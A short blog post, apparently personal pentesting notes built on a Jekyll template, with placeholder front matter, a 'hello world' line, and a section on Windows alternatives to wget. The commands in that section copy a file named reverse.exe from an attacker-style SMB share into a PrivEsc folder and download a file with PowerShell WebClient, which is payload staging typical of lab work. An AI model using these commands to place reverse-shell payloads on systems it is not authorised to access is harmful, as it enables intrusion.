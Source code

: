 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```shell

	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
